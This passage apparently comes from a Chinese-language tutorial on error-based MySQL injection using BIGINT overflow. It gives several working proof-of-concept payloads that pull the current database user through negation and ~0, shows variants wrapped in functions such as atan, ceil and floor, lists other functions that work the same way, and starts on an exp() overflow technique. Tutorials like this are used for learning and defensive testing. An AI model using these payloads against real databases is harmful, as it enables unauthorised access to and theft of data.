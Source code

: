 我们已经成功的注入出了用户为`root` 。

但是我们一定要注意，`+` 在浏览器中会被编码为`空格` ，因此我们可以使用`-` 替换`+` 或者用`%2b` 替换`+` 。

```text
select !(select*from(select user())x) - ~0
```

![](../../../.gitbook/assets/tu-pian%20%2883%29.png)

与之类似的还有如下POC：

```text
(select(!x-~0)from(select(select user())x)a) 
(select!x-~0.from(select(select user())x)a)
```

由于对函数也可以进行取反操作，所以以下方式也是可以的：

```text
select !atan((select*from(select user())a))-~0; 
select !ceil((select*from(select user())a))-~0;
select !floor((select*from(select user())a))-~0;
```

作者经过测试，发现以下函数都是可以的（包括但不限于）：

```text
HEX
IN
FLOOR
CEIL
RAND
CEILING
TRUNCATE
TAN
SQRT
ROUND
SIGN
```

在发现`BIGINT` 溢出之后，作者发现，当传递一个大于709的值时，函数`exp()`就会引起一个溢出错误。 `exp()`即为以e为底的对数函数，如等式：

```text
select exp(2.70805020110221)
```
